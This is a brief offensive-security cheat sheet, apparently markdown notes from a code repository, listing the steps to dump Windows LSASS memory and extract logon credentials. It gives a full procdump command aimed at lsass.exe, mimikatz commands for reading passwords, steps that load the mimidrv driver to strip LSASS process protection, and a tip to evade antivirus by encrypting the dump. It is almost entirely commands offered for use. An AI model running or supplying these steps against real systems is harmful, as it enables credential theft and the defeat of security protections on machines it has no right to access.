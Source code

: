 # DUMP LSASS PROCESS WITH TASK MANAGER (REQUIRES GUI)

#### 1) GUI (Right-click on lsass.exe in Task Manager)

#### 2) Create dump file

#### 3) Copy dump file to mimikatz folder

## Sysinternals suite (Procdump)

#### procdump.exe -accepteula -ma lsass.exe c:\tools\mimikatz\lsass_dump

## TIP: Bypass AV, write code to encrypt

## Mimikatz

#### 1) mimikatz

#### 2) privilege::debug

#### 3) sekurlsa::logonpasswords

# BYPASS LSASS PROTECTION

#### 1) mimikatz

#### 2) privilege::debug 

#### 3) !+ (Load mimidrv driver into memory)

#### 4) !processprotect /process:lsass.exe /remove

#### 5) sekurlsa::logonpasswords
